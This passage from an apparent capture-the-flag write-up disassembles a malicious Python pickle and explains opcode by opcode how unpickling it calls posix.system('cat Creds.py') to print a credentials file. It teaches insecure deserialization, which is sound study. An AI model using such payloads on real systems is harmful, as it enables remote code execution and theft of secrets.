 Using `pickletools`, we can examine the pickle serialization, which might be useful for the next challenge (Authlab 1.1).

```python
from pickletools import dis

dis(evil_pickle, annotate=1)
'''
    0: \x80 PROTO      4 Protocol version indicator.
    2: \x95 FRAME      39 Indicate the beginning of a new frame.
   11: \x8c SHORT_BINUNICODE 'posix' Push a Python Unicode string object.
   18: \x94 MEMOIZE    (as 0)        Store the stack top into the memo.  The stack is not popped.
   19: \x8c SHORT_BINUNICODE 'system' Push a Python Unicode string object.
   27: \x94 MEMOIZE    (as 1)         Store the stack top into the memo.  The stack is not popped.
   28: \x93 STACK_GLOBAL              Push a global object (module.attr) on the stack.
   29: \x94 MEMOIZE    (as 2)         Store the stack top into the memo.  The stack is not popped.
   30: \x8c SHORT_BINUNICODE 'cat Creds.py' Push a Python Unicode string object.
   44: \x94 MEMOIZE    (as 3)               Store the stack top into the memo.  The stack is not popped.
   45: \x85 TUPLE1                          Build a one-tuple out of the topmost item on the stack.
   46: \x94 MEMOIZE    (as 4)               Store the stack top into the memo.  The stack is not popped.
   47: R    REDUCE                          Push an object built from a callable and an argument tuple.
   48: \x94 MEMOIZE    (as 5)               Store the stack top into the memo.  The stack is not popped.
   49: .    STOP                            Stop the unpickling machine.
highest protocol among opcodes = 4
'''
```

We can ignore the `PROTO`, `FRAME` and `MEMOIZE` opcodes, simplifying the expression to:
```python
'''
   11: \x8c SHORT_BINUNICODE 'posix' Push a Python Unicode string object.
   19: \x8c SHORT_BINUNICODE 'system' Push a Python Unicode string object.
   28: \x93 STACK_GLOBAL              Push a global object (module.attr) on the stack.
   30: \x8c SHORT_BINUNICODE 'cat Creds.py' Push a Python Unicode string object.
   45: \x85 TUPLE1                          Build a one-tuple out of the topmost item on the stack.
   47: R    REDUCE                          Push an object built from a callable and an argument tuple.
   49: .    STOP                            Stop the unpickling machine.
'''
```

At offset `28`, `STACK_GLOBAL` pops the top two strings in the stack, resolves them as `module.attr` and pushes the result back into the stack. In this case, `posix.system` where `posix` is equivalent to `__import__('os')`.

Next, we push the code injection `'cat Creds.py'` and put it into a tuple with a single element using `TUPLE1`.

Lastly, `REDUCE` pops a callable and an argument tuple from the top of the stack, applies the callable to the arguments as `callable(*args)` and pushes the result back into the stack. In this case, `posix.system('cat Creds.py')`. Since `os.system` sends the output to the interpreter standard output stream, we don't need to print it.
